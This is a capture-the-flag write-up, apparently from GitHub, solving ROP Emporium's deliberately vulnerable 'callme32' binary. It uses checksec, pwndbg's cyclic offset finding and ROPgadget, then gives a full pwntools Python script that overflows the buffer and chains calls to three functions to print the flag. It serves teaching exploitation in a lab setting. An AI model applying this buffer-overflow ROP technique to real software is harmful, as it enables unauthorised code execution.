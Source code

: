 First of all, use checksec to get some binary information
```shell
[marco@marco-pc callme32]$ file callme32 
callme32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ceeb3a388347fd09bb234f44846f1480ac7abf64, not stripped
[marco@marco-pc callme32]$ checksec --file='callme32'
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          RW-RPATH   No RUNPATH   82 Symbols     No	0		3	callme32
```

ROP Emporium tell us:
*You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag.*

Before searching functions address, we find out how many bytes are to be filled before EIP
```gdb
gdb-pwndbg callme32

...

pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/marco/Downloads/callme32/callme32 
callme by ROP Emporium
32bits

Hope you read the instructions...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44
```

As we have seen with `checksec`, the program is not stripped and there isn't PIE (no randomization). This means that we can look up the address of the 3 functions in the binary.

```gdb
pwndbg> i functions
All defined functions:

Non-debugging symbols:
0x08048558  _init
0x08048590  printf@plt
0x080485a0  fgets@plt
0x080485b0  callme_three@plt
0x080485c0  callme_one@plt
0x080485d0  puts@plt
0x080485e0  exit@plt
0x080485f0  __libc_start_main@plt
0x08048600  setvbuf@plt
0x08048610  memset@plt
0x08048620  callme_two@plt
0x08048630  __gmon_start__@plt
0x08048640  _start
0x08048670  __x86.get_pc_thunk.bx
0x08048680  deregister_tm_clones
0x080486b0  register_tm_clones
0x080486f0  __do_global_dtors_aux
0x08048710  frame_dummy
0x0804873b  main
0x080487b6  pwnme
0x0804880c  usefulFunction
0x08048850  __libc_csu_init
0x080488b0  __libc_csu_fini
0x080488b4  _fini
```

Last thing we need to build our exploit, is a gadget that pop 3 argmuments from the stack. this is necessary to clean the stack between calls

```shell
[marco@marco-pc callme32]$ ROPgadget --binary="callme32" > gadgets
[marco@marco-pc callme32]$ cat gadgets | grep pop
0x08048574 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080487ad : add byte ptr [ebx - 0x723603b3], cl ; popal ; cld ; ret
0x080488a5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048576 : add esp, 8 ; pop ebx ; ret
0x080488bf : inc ebx ; pop ss ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080488a4 : jecxz 0x8048831 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080488a3 : jne 0x8048891 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048577 : les ecx, ptr [eax] ; pop ebx ; ret 
0x080488a6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048572 : mov edx, 0x83000000 ; les ecx, ptr [eax] ; pop ebx ; ret
0x080488a7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080488ab : pop ebp ; ret
0x080488a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048579 : pop ebx ; ret
0x080488aa : pop edi ; pop ebp ; ret
0x080488a9 : pop esi ; pop edi ; pop ebp ; ret
0x080488c0 : pop ss ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080487b3 : popal ; cld ; ret
```
gadget at `*0x080488a9*`seems to be perfect!

Final exploit:
```python
from pwn import *

callme_one = 0x080485c0
callme_two = 0x08048620
callme_three = 0x080485b0
pop_3 = 0x080488a9

shellcode = ("A"*44).encode()
shellcode += p32(callme_one)
shellcode += p32(pop_3)
shellcode += p32(0x1)
shellcode += p32(0x2)
shellcode += p32(0x3)

shellcode += p32(callme_two)
shellcode += p32(pop_3)
shellcode += p32(0x1)
shellcode += p32(0x2)
shellcode += p32(0x3)

shellcode += p32(callme_three)
shellcode += p32(pop_3)
shellcode += p32(0x1)
shellcode += p32(0x2)
shellcode += p32(0x3)

p = process('./callme32')
p.recvuntil('>')
p.sendline(shellcode)
print(p.recvall().decode())
```
